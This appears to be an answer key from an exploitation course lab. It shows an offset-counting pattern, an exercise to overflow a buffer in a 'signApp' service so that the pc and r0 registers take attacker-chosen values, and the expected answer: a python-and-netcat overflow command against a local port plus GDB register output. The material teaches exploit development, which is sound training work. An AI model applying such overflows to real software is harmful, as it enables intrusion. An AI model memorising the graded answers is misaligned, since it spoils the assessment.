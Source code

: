 The following text representation may help counting the offsets and determine how close students are if they are not exactly correct.  To count properly, make sure the text below is not wrapping (maybe paste it into a text editor from a Markdown or HTML version of this document.

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae
                                                                                    Ac8Ac9Ad0Ad1
1234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890
         1         2         3         4         5         6         7         8         9         0         1         2         3
                                                                                                   1         1         1         1
```

***Exercise: Construct a buffer that populates a four-byte sequence of ASCII 'B' characters (0x42) in the `pc` register and a four-byte sequence of ASCII 'C' characters in the `r0` register.  Your buffer will cause the `signApp` process to crash and the register state will be captured in the resulting core file.  Your buffer should contain only four ASCII 'B' characters and only four ASCII 'C' characters.  All other characters in your sequence should be ASCII 'A' characters.  Your buffer should end with the sequence of four ASCII 'B' characters.  Provide the following three items as your response to this exercise:***

1. ***The text of the command you ran to send your buffer to the VMS Administrative Interface.***
2. ***A screenshot showing the full output you see in the terminal after running the command.***
3. ***A screenshot showing the state of the registers, as captured in the core file from the `signApp` crash, in GDB.***


1. The text of the command is shown below.

   ```
   python -c 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACCCCAAAABBBB"' | nc 127.0.0.1 5555
   ```

2. The screenshot will show the following output.

   ```
   student@revm:~$ python -c 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACCCCAAAABBBB"' | nc 127.0.0.1 5555
   The message of the day is: Changing lanes? Use yah blinkah.
   
   If you enter the correct password you can change the message of the day.
   
   password: student@revm:~$
   ```

3. The screenshot of the register state will show the following output.

   ```
   (gdb) info registers
   r0             0x43434343	1128481603
   r1             0xb6f52e99	3069521561
   r2             0x41	65
   r3             0x43434343	1128481603
   r4             0x0	0
   r5             0xb6f534d0	3069523152
   r6             0xb6fd22ac	3070042796
   r7             0x152	338
   r8             0xb6fc03ec	3069969388
   r9             0xb6f53040	3069521984
   r10            0x200000	2097152
   r11            0x41414141	1094795585
   r12            0xb6f88ff0	3069743088
   sp             0xb6f52eb8	0xb6f52eb8
   lr             0x108d0	67792
   pc             0x42424242	0x42424242
   ```